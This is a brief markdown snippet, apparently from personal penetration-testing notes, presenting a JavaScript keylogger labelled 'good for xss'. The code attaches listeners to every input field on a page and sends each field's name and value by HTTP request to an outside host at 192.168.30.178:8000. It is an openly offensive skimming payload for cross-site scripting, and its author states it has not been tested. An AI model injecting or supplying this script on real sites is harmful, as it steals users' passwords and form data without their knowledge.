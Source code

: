 JavaScript Key logger
--------------------------
# Log key stokes using js, good for xss
# has not been tested yet.

```javascript
var input = document.querySelectorAll("input");

function saveLocal(e) {
    var url = "http://192.168.30.178:8000/"; 
    var method = "GET"; //Metodo HTTP
    var request = new XMLHttpRequest();
    request.open(method, url + this.name + ":" + this.value, false);
    request.send();
}

for (var i = 0; i < input.length; i++) {

    input[i].addEventListener("blur", saveLocal);
    
    }
```

